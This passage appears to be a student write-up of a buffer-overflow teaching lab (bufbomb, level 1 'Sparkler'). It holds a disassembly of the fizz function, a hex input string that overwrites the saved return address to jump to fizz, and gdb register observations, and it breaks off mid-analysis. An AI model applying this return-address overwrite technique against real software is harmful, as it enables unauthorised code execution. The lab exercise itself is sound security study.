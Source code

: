 54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69
18 8c 04 08 
 ```


## level 1: Sparkler

* fizz address: 0x08048c42
```
08048c42 <fizz>:
 8048c42:	55                   	push   %ebp
 8048c43:	89 e5                	mov    %esp,%ebp
 8048c45:	83 ec 18             	sub    $0x18,%esp
 8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c4b:	8b 55 0c             	mov    0xc(%ebp),%edx
 8048c4e:	89 c1                	mov    %eax,%ecx
 8048c50:	f7 d1                	not    %ecx
 8048c52:	c1 e1 08             	shl    $0x8,%ecx
 8048c55:	23 0d 28 d1 04 08    	and    0x804d128,%ecx
 8048c5b:	39 d1                	cmp    %edx,%ecx
 8048c5d:	75 2a                	jne    8048c89 <fizz+0x47>
 8048c5f:	89 54 24 0c          	mov    %edx,0xc(%esp)
 8048c63:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c67:	c7 44 24 04 c8 a1 04 	movl   $0x804a1c8,0x4(%esp)
 8048c6e:	08 
 8048c6f:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c76:	e8 e5 fc ff ff       	call   8048960 <__printf_chk@plt>
 8048c7b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c82:	e8 5d 06 00 00       	call   80492e4 <validate>
 8048c87:	eb 1c                	jmp    8048ca5 <fizz+0x63>
 8048c89:	89 54 24 0c          	mov    %edx,0xc(%esp)
 8048c8d:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c91:	c7 44 24 04 ec a1 04 	movl   $0x804a1ec,0x4(%esp)
 8048c98:	08 
 8048c99:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048ca0:	e8 bb fc ff ff       	call   8048960 <__printf_chk@plt>
 8048ca5:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048cac:	e8 0f fc ff ff       	call   80488c0 <exit@plt>
 ```
In level0, the return address part in string is 41 to 44 bytes. So change smoke address to fizz address and add some bytes to check what's going on in fizz.
```
level1/fizz-test.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69
42 8c 04 08
70 71 72 73
74 75 76 77
78 79 80 81
 ```
Executing bufbomb in gdb, input ```./level1/test-raw.txt``` file, it says
```
eax 0x77767574          // which is from 0x8(%ebp)
edx 0x81807978          // which is from 0xc(%ebp)